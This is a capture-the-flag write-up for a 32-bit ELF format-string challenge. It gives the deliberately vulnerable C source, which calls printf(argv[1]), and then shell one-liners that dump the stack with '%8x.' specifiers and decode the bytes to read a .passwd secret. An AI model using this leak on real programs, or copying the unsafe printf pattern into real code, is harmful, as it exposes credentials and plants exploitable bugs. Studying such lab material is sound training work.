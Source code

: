 ## ELF32 - Format string bug basic 1

| Author | Level | Points |
| ------ | ----- | ------ |
| Lu33Y | Easy | 15 |

> ... or how to read through the stack
>
><b> Statement </b> <br />
>Environment configuration : 
> * [ ] Postion Independent Executable 
> * [ ] Read Only relocations
> * [ ] Non-Executable Stack 
> * [ ] Non-Executable Heap 
> * [ ] Address Space Layout Randomisation 
> * [ ] Source Fortification 
> * [x] Source code access
>
>Source code :
>
>```c
>#include <stdio.h>
>#include <unistd.h>
> 
>int main(int argc, char *argv[]){
>	FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
>	char buffer[32];
>	fgets(buffer, sizeof(buffer), secret);
>	printf(argv[1]);
>	fclose(secret);
>	return 0;
>}
>```

#### Solution

First, discover the content of `.passwd` file

```
$ ls -l .passwd
-r--r---- 1 app-systeme-ch5-cracked app-systeme-ch5-cracked 14 Feb 8 2012 .passwd
```
The file size is 14 bytes, we get

 * Read the first 14 address inside of stack
```
./ch5 $(python -c 'print "%8x."*14')
```

 * Sort the hex digit after print out the value of stack
```
sed -r 's/(..)(..)(..)(..)/\4\3\2\1\s/g'
```

 * Hex -> Ascii string
```
xxd -r -p
```

Then get the password with:
```
echo -e $(./ch5 $(python -c 'print "%8x."*14') | sed -r 's/(..)(..)(..)(..)/\4\3\2\1\s/g') | xxd -r -p | grep -Eaz "[[:print:]]{13}"
```
